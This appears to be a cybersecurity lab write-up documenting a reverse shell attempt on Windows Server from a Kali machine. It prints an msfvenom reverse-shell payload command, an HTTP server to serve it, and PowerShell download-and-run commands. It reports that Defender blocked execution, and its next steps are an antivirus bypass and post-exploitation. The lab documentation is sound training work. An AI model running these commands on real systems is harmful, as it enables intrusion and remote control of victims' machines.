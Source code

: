 
# 🔥 Reverse Shell Payload Deployment Attempt — Lab Documentation

## 🧪 Objective
Simulate remote code execution (RCE) on a Windows Server 2025 target by crafting and delivering a reverse shell payload from a Kali Linux attacker machine.

---

## 🧠 Attacker Setup (Kali Linux)

**IP Address:** `192.168.1.3`  
**Payload Type:** `windows/x64/shell_reverse_tcp`  
**Listener:** Metasploit handler on port `4444`

### Payload Generation (msfvenom):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o revshell.exe
```

### HTTP Server to Deliver Payload:
```bash
sudo python3 -m http.server 80
```

---

## 🧾 Download & Execution Attempt on Target (Windows Server)

### PowerShell Commands Used:
```powershell
Invoke-WebRequest -Uri http://192.168.1.3/revshell.exe -OutFile C:\Users\Public\revshell.exe
Start-Process C:\Users\Public\revshell.exe
```

---

## ❗ Result

- File was **successfully downloaded** to the Windows Server.
- **Execution was blocked by Windows Defender** with the following error:
  > "Operation did not complete successfully because the file contains a virus or potentially unwanted software."

---

## ✅ Achievements

- Confirmed **network connectivity**
- Validated **Metasploit listener was active**
- Successfully **transferred payload**
- Simulated **real-world AV detection** response
📄 Add reverse shell deployment log (Defender blocked execution)
- Payload: shell_reverse_tcp
- LHOST: 192.168.1.3
- File delivered successfully
- Execution blocked by Windows Defender AV
- Next: attempt AV bypass or disable Defender temporarily

---

## 📌 Next Steps

- Test **Defender bypass** using encoded `msfvenom` payload
- Attempt **payload execution after disabling Defender** (lab safe mode)
- Begin **post-exploitation** (enumeration + privilege escalation)

---

👨‍💻 Oleh Borysovskyy  
📅 April 22, 2025  
🔒 Lab Environment: Air-gapped physical cyber range
